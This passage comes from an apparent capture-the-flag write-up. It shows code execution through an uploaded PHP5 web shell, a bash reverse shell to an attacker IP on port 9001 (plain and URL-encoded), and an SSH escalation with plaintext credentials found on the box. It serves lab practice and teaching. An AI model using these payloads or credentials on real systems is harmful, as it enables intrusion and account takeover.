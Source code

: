 These file extensions were allowed and the PHP5 file can be executed. It is located in _/sparklays/design/uploads/_:
```markdown
GET /sparklays/design/uploads/cmd.php5?cmd=whoami
```

It shows _www-data_ and proofs command execution, so lets start a reverse shell:
```markdown
GET /sparklays/design/uploads/cmd.php5?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'

# URL-encoded
GET /sparklays/design/uploads/cmd.php5?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.8/9001+0>%261'
```

After sending the request the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

When checking the box, it looks like that this is not the target, but some kind of virtual host, as it has several different virtual interfaces and the hostname _ubuntu_.

There are two home directories _/home/alex_ and _/home/dave_.
The user _alex_ has only one file in his home folder:
```markdown
alex/Downloads:                                                                                 
-rw-rw-r-- 1 libvirt-qemu kvm 853540864 Jul 17  2018 server.iso
```

The user _dave_ has some interesting files in his home folder:
```markdown
dave/Desktop:
-rw-rw-r-- 1 alex alex 74 Jul 17  2018 Servers
-rw-rw-r-- 1 alex alex 14 Jul 17  2018 key
-rw-rw-r-- 1 alex alex 20 Jul 17  2018 ssh
```

- Contents of _Servers_
```markdown
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
```

- Contents of _key_:
```markdown
itscominghome
```

- Contents of _ssh_:
```markdown
dave
Dav3therav3123
```

The password in the _ssh_ file works and privileges got escalated to _dave_ via SSH:
```markdown
ssh dave@10.10.10.109
```
